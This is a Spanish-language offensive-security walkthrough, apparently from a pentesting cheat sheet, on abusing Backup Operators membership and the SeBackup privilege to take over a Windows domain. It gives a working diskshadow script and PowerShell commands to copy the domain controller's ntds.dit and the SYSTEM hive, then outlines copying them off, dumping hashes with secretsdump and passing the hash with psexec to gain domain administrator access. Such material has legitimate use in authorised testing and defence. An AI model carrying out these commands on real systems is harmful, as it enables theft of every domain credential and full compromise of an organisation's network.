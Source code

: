 ### Abuso del grupo de operadores de backup

¿Qué es DIS?: Si logramos comprometer una cuenta de usuario que pertenece al grupo de operadores de backup, podemos abusar de su privilegio SeBackup para crear una instantánea del estado actual del controlador de dominio, extraer el archivo de base de datos ntds.dit, volcar los hashes y escalar nuestros privilegios al administrador de dominio.

1. Una vez que tengamos acceso a una cuenta con el privilegio SeBackup, podemos acceder al controlador de dominio y crear una instantánea usando el binario firmado diskshadow:

```powershell
#Crear un archivo .txt que contendrá el script del proceso de instantánea
Script ->{
set context persistent nowriters
set metadata c:\windows\system32\spool\drivers\color\example.cab
set verbose on
begin backup
add volume c: alias mydrive

create

expose %mydrive% w:
end backup
}

#Ejecutar diskshadow con nuestro script como parámetro
diskshadow /s script.txt
```

2. A continuación, necesitamos acceder a la instantánea. Si bien podemos tener el privilegio SeBackup, no podemos simplemente copiar y pegar ntds.dit. Necesitamos imitar un software de respaldo y usar llamadas a la API de Win32 para copiarlo en una carpeta accesible. Para esto, usaremos este increíble repositorio [https://github.com/giuliano108/SeBackupPrivilege]:

```powershell
#Importando ambas DLL desde el repositorio con PowerShell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll

#Comprobando si SeBackupPrivilege está habilitado
Get-SeBackupPrivilege

#Si no lo está, lo habilitamos
Set-SeBackupPrivilege

#Usando la funcionalidad de las DLL para copiar el archivo de base de datos ntds.dit desde la instantánea a la ubicación que elijamos
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit -Overwrite

#Volcar la sección SYSTEM
reg save HKLM\SYSTEM c:\temp\system.hive
```

3. Usando smbclient.py de impacket u otra herramienta, copiamos ntds.dit y el subárbol SYSTEM en nuestra máquina local.
4. Usando secretsdump.py de impacket y volcamos los hashes.
5. Usando psexec u otra herramienta de su elección para PTH y obtener acceso de administrador de dominio.
